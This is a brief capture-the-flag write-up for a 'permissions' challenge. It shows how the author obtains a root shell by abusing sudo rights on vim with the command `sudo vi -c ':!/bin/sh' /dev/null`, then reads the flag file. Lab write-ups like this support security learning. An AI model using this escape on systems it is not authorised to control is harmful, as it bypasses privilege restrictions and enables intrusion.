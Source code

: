# permissions

## Description
![](images/permissions_1.png)

## Steps
The CTF ask to connect at a specific URL with ssh.

1. After login, I ran this command `sudo ls -l` which give me thenhint to use vim :
![](images/permissions_2.png)

2. After many attempts and many googling, I tried this : `sudo vi -c ':!/bin/sh' /dev/null`. 

This command exploits the fact that Vim is allowed to run with sudo privileges. By telling Vim to execute a shell command, I effectively get a root shell, bypassing normal user restrictions.

![](images/permissions_3.png)

3. I navigate with `ls -la` and ` cd --` to the root directory.

4. To display the flag I simply use `cat .flag.txt`